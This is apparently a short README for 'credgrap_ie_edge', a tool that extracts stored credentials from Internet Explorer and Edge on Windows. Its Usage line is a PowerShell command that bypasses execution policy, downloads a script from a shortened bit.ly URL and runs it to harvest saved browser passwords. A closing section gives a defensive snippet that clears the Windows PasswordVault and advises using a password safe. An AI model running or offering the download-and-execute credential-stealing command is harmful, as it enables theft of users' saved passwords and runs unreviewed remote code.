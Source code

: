 # credgrap_ie_edge

Content: Extract stored credentials from Internet Explorer and Edge

Author: Florian Hansemann | @HanseSecure | https://hansesecure.de

Date: 04/2018

## Usage
powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2K75g15’)"

## Recommendation

### Powershell Solution
[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$vault = New-Object Windows.Security.Credentials.PasswordVault
$vault.RetrieveAll() | ForEach {$vault.Remove($_)}

Thanks @nongiach for Info

### Other Solution
Don't save any passwords within your browser and use password safes ;-)
